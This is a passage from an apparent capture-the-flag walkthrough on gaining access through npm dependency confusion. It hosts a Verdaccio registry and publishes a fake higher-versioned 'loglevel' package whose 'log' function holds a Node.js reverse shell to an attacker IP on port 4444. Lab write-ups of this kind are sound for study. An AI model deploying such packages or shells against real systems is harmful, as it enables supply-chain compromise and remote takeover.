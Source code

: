 But we can't write in `/opt/app` as we have only read rights, right now this module isn't installed

<img src="https://i.imgur.com/rf61y0v.png"/>

So we can run the script so that this module can be installed

<img src="https://i.imgur.com/aNYrm3B.png"/>

<img src="https://i.imgur.com/Ymvxk43.png"/>

Here we can trick the `npm` to download loglevel from our hosted repository of node modules which leads to `Dependency Confusion` , which means that index.js will use our malicious loglevel plugin if the version is above than the current version it's fetching and we can already see that once it's installed the version is `1.8.0` so we need to create a module with a version higher than this 

https://0xsapra.github.io/website//Exploiting-Dependency-Confusion

But question is from where exacly is npm fetching packages from, if we check `.npmrc`  in kavi's home directory it's fetching the packages from the registry from localhost which was running on port 4873, it's weird because I didn't saw any package on this system

<img src="https://i.imgur.com/B44b0Na.png"/>

We can host our own registry for node modules using `Verdaccio`

https://medium.com/aeturnuminc/publish-and-resolving-npm-packages-using-private-npm-server-easy-step-by-step-c16f886d452f

Installing verdaccio with npm (make sure to have node version 12 or above)

```bash
npm install -g verdaccio
```

Starting vedaccio on tun0 interface 

```bash
verdaccio -l IP:4873
```

<img src="https://i.imgur.com/I0e9jfh.png"/>

We need to add a user before hosting node modules

<img src="https://i.imgur.com/ylJgy0k.png"/>

Following this template for making node modules I modified  `package.json` 

https://0xsapra.github.io/website//Exploiting-Dependency-Confusion

<img src="https://i.imgur.com/7JDi2st.png"/>

Adding a node reverse shell within a fucntion called `log` as it's going to be called in the js file, then publishing the node module

```javascript
function log (msg)
{
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(4444, "10.10.14.19", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
}

module.exports = { log }

```
